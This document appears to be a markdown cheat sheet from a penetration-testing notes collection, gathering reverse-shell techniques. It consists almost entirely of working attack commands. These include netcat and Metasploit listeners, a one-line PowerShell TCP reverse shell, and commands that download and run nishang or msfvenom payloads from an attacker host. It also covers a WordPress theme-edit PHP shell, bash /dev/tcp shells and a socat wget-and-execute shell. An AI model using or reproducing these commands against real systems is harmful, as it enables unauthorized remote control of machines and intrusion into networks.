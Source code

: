 # Reverse Shell

## Listeners
___

### NC
```
nc -lvnp 4444
```
### Metasploit
- Meterpreter listener
```
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload windows/(x64)/meterpreter/reverse_tcp
```

## Payload
___

### PHP
- Get reverse shell from Wordpress admin dashboard using themes edition
```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : http://hostname/wordpress/wp-content/themes/themename/file.php
```

### Windows

- Powershell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```

- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python -m SimpleHTTPServer 8000
```

- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

- Reverse/Privilege Escalation with credentials
```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/user:password@0.0.0.0 cmd.exe
```

### Metasploit

- Get meterpreter session with SSH login
```sh
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
```

- Exe Payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f exe > shell.exe
```

- PHP Payload
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

- Socat Shell
```sh
wget -q 10.6.77.211/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.77.211:443
```

## Upgrading shell
___
- Upgrade shell to bash/pty

```sh
SHELL=/bin/bash script -q /dev/null
```
```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

## Links
___
### Guides
- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://github.com/pentestmonkey/php-reverse-shell
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://netsec.ws/?p=331
- https://gtfobins.github.io/

### Writeups
- 
